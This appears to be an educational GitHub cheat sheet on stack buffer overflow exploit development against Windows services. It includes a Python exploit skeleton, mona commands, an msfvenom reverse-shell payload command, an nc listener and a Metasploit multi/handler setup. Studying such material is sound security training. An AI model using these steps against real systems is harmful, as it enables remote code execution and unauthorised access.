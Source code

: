 # Developing an Exploit

<!-- TOC -->
- [Developing an Exploit](#developing-an-exploit)
  - [Crash replication & controlling EIP](#crash-replication--controlling-eip)
    - [Pattern](#pattern)
  - [Finding bad characters](#finding-bad-characters)
  - [Finding a jump point](#finding-a-jump-point)
    - [JMP ESP - Inside the .exe](#jmp-esp---inside-the-exe)
    - [JMP ESP - inside a DLL](#jmp-esp---inside-a-dll)
  - [Return address](#return-address)
  - [Generate payload](#generate-payload)
  - [Prepend NOPs](#prepend-nops)
  - [Multihandler Listener](#multihandler-listener)
  - [References](#references)

<!-- /TOC -->

 Use fuzzer.py or fuzzer2.py, until the application crash inside Immunity Debugger. Fuzzing a program to make it crash:

- [Fuzzer 1](ExploitDevelopment/files/fuzzer1.py)
- [Fuzzer 2](ExploitDevelopment/files/fuzzer2.py)

You just have to modify those two variables of the scripts above :

- IP
- PORT When the application crashes, EIP should be equal to 41414141 (hex value of "AAAA").

Setting up `mona.py` program working forlder `!mona config -set workingfolder C:\Program Files (x86)\Immunity Inc\Immunity Debugger\%p`

## Crash replication & controlling EIP

### Pattern

We can generate a cyclic pattern to find the exact offset of the crash with or you can use metasploit to do the job:

```text
# Mona
!mona pc <SIZE>

# Metasploit
msf-pattern_create -l <SIZE>
```

The size must be higher than the crash offset. Now modify the payload variable by the cyclic pattern :

```python
##!/usr/bin/env python3
# exploit.py

import socket
ip = "<IP>"
port = <PORT>

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Re-run the exploit, the application should crash. To find the exact offset of the crash use:
`!mona findmsp -distance <SIZE>` Size is the same as the one used to create the pattern. The result should be something like:
`EIP contains normal pattern : ... (offset XXXX)` Get the offset, modify in exploit.py:

- The `offset` variable by the offset
- The `retn` variable by "BBBB"
- Remove the **payload** variable

```python
offset = <OFFSET>
overflow = "A" * offset
retn = "BBBB"
payload = ""
```

Re-run `exploit.py`, EIP should be equal to 42424242 (hex value of "BBBB"). You now control EIP!

## Finding bad characters

Certain byte characters can cause issues in the development of exploits. We must run every byte through the program to see if any characters cause issues. By default, the null byte (\x00) is always considered a bad character as it will truncate shellcode when executed. We will send bad characters recursively and analyze if they need to be removed. Let generate the list of bad characters with mona: `!mona bytearray -b "\x00"`

Copy the results in the variable payload. And re-run exploit.py, the application should crash. Now to found those bad characters use this command : `!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>`

If BadChars are found, we need to exclude them as well.

```text
!mona bytearray -b "\x00 + <BAD_CHARS>"
# Example
!mona bytearray -b "\x00\x01\x02\x03"
```

Then compare again : `!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>` Repeat those two steps until the results status returns Unmodified, this indicates that no more bad characters exist.

## Finding a jump point

### JMP ESP - Inside the .exe

`!mona jmp -r esp -cpb "<BAD_CHARS>"`

### JMP ESP - inside a DLL

`!mona modules` We need to found a .dll were Rebase, SafeSEH, ASLR, NXCompat are sets to False. When you found it, run the command below to search for a JMP ESP (FFE4), inside the dll: `!mona find -s "\xff\xe4" -m <DLL>`

## Return address

Choose an address in the results and update `exploit.py`:

- Setting the retn variable to the address, written backwards (little-endian)

  ```text
  # Example of a JMP ESP address
    0x625011af
  # exploit.py
    retn = "\xaf\x11\x50\x62"
  ```

## Generate payload

Now we generate our shellcode without the badchars that we found:
  `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "<BAD_CHARS>" -f c`
Copy the generated shellcode and update `exploit.py`:

- Setting the payload variable equal to the shellcode

## Prepend NOPs

A NOP-sled is a technique for exploiting stack buffer overflows. It solves the problem of finding the exact address of the buffer by effectively increasing the size of the target area, `\x90` represents a NOP in assembly. This instruction will literally do nothing and continue on with code execution.
`padding = "\x90" * 16`
Start a listener
`nc -lvp <PORT>`

## Multihandler Listener

To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,

```shell
msf>use exploit/multi/handler
msf>set payload windows/meterpreter/reverse_tcp
msf>set lhost <ip>
msf>set lport <port>
msf>set ExitOnSession false
msf>exploit -j
```

The -j option is to keep all the connected session in the background.

## References

<https://kb.help.rapid7.com/discuss/598ab88172371b000f5a4675>
<https://thor-sec.com/cheatsheet/oscp/msfvenom_cheat_sheet/>
<http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/>
